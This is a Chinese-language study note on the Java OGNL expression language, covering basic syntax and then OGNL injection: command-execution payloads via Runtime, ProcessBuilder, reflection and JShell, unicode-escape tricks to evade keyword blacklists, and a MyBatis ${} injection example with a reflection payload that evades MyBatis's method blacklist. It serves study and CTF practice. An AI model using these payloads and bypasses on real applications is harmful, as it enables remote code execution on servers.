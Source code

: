 ```yaml
---
created: '22/03/11'
title: OGNL
tags:
  - java
  - java安全
---
```


# OGNL
## maven导入
```xml
<dependency>
	<groupId>ognl</groupId>
	<artifactId>ognl</artifactId>
	<version>3.1.19</version>
</dependency>
```

## 基本语法
### 对Root对象的访问
```java
User user = new User("test", 23);
System.out.println(Ognl.getValue("name", user));
```
### 对上下文对象的访问
```java
Map<String, Object> context = new HashMap<String, Object>();
context.put("init", "hello");
Ognl.getValue("#init", context, null);
```
### 对静态变量/静态方法的访问
```java
System.out.println(Ognl.getValue("@java.lang.Runtime@getRuntime()", null););
```
### 对方法的访问
```java
System.out.println(Ognl.getValue("@java.lang.Runtime@getRuntime().exec('calc.exe');", null););
```
### 对数组和集合的访问
```java
User user = new User();
Map<String, Object> context = new HashMap<String, Object>();
String[] strings  = {"aa", "bb"};
ArrayList<String> list = new ArrayList<String>();
list.add("aa");
list.add("bb");
Map<String, String> map = new HashMap<String, String>();
map.put("key1", "value1");
map.put("key2", "value2");
context.put("list", list);
context.put("strings", strings);
context.put("map", map);
System.out.println(Ognl.getValue("#strings[0]", context, user));
System.out.println(Ognl.getValue("#list[0]", context, user));
System.out.println(Ognl.getValue("#list[0 + 1]", context, user));
System.out.println(Ognl.getValue("#map['key1']", context, user));
System.out.println(Ognl.getValue("#map['key' + '2']", context, user));
```
### 创建对象
```java
System.out.println(Ognl.getValue("#{'key1':'value1'}", null));	
System.out.println(Ognl.getValue("{'key1','value1'}", null));
System.out.println(Ognl.getValue("new sample.ognl.User()", null));
```
### 表达式支持
```
2 + 4 // 整数相加（同时也支持减法、乘法、除法、取余 [% /mod]、）
"hell" + "lo" // 字符串相加
i++ // 递增、递减
i == j // 判断
var in list // 是否在容器当中
```

## OGNL注入
由于OGNL的强大与方便性，我们很容易构造一些命令执行的payload:
```
//使用runtime执行系统命令
@java.lang.Runtime@getRuntime().exec("calc")


//使用processbuilder执行系统命令
(new java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).start()

//使用反射调用runtime执行系统命令
${(#runtimeclass=#this.getClass().forName("java.lang.Runtime")).(#getruntimemethod=#runtimeclass.getDeclaredMethods([7]).(#rtobj=#getruntimemethod.invoke(null,null)).(#execmethod=#runtimeclass.getDeclaredMethods([14]).(#execmethod.invoke(#rtobj,"cmd"))}

//使用Jshell执行java代码(jdk9及以后)
@jdk.jshell.Jshell@create().eval('code');
```

### 关键字绕过
假如题目中对用户的输入进行了关键字的黑名单(以new为例)，那么实际上我们可以使用unicode字符进行绕过:
```java
String str = "(\u006eew java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).start()";
Ognl.getValue(str, null);
```
那么假如存在一个正则表达式`\\u\d{4}`，将对应的unicode先解析了一遍，再进行黑名单，还有方法绕过吗？实际上这里又存在一个trick，即`\uxxxx`中的u是可以写一个或多个的，具体原因在于`ognl.JavaCharStream#readChar`方法中:
![](https://gitee.com/guuest/images/raw/master/img/20220311111220.png)
所以上述OGNL表达式可以改写为:
```java
String str = "(\uuuuuuuuuuuuuuuu006eew java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).start()";
Ognl.getValue(str, null);
```


### OGNL与mybatis
***基于mybatis3.5.9，不同版本的mybatis可能存在差异***

mybatis中实际上是支持OGNL表达式的，这样假如mybatis存在sql注入(即输入直接拼接)的情况，那么实际上也存在OGNL注入，可以实现RCE

MyBatis中可以使用OGNL的地方有两处：
- 动态SQL表达式中
- ${param}参数中

举一个简单的例子:
```java
package com.example.ezsqltest.dao;

import org.apache.ibatis.annotations.Param;
import org.apache.ibatis.jdbc.SQL;

public class UserProvider {
    public UserProvider() {
    }

    public String getVoteById(@Param("vid") final String vid) {
        String s = (new SQL() {
            {
                this.SELECT("*");
                this.FROM("users");
                this.WHERE("id = " + vid);
            }
        }).toString();
        return s;
    }
}
```
这里的vid是用户的输入，没有经过任何的过滤直接拼接进sql查询中，所以我们这里可以输入`${1}`来使用OGNL表达式。

所以这里是存在OGNL注入的，但是假如我们尝试使用`${@java.lang.Runtime@getRuntime().exec("calc")}`这个payload进行注入时，会发现命令并没有被成功执行，这是为什么呢？

答案藏在`org.apache.ibatis.ognl.OgnlRuntime#invokeMethod`方法中，这里存在着一个黑名单机制:
![](https://gitee.com/guuest/images/raw/master/img/20220311105937.png)
当_useStricterInvocation为true时，黑名单中的类(或继承自黑名单中的类)将不能调用方法，而_useStricterInvocation这个值默认是为true。

所以这时候我们就需要一些绕过方法进行绕过了，上面也提到了这些payload:
```java
//使用反射调用runtime执行系统命令
${(#runtimeclass=#this.getClass().forName("java.lang.Runtime")).(#getruntimemethod=#runtimeclass.getDeclaredMethods([7]).(#rtobj=#getruntimemethod.invoke(null,null)).(#execmethod=#runtimeclass.getDeclaredMethods([14]).(#execmethod.invoke(#rtobj,"cmd"))}

//使用Jshell执行java代码(jdk9及以后)
@jdk.jshell.Jshell@create().eval('code');
```



### OGNL与struts 2
后补



## 参考文章
- https://jueee.github.io/2020/08/2020-08-15-Ognl%E8%A1%A8%E8%BE%BE%E5%BC%8F%E7%9A%84%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8%E6%96%B9%E6%B3%95/
- https://www.mi1k7ea.com/2020/03/16/OGNL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/
- https://paper.seebug.org/794/
- https://blog.csdn.net/isea533/article/details/50061705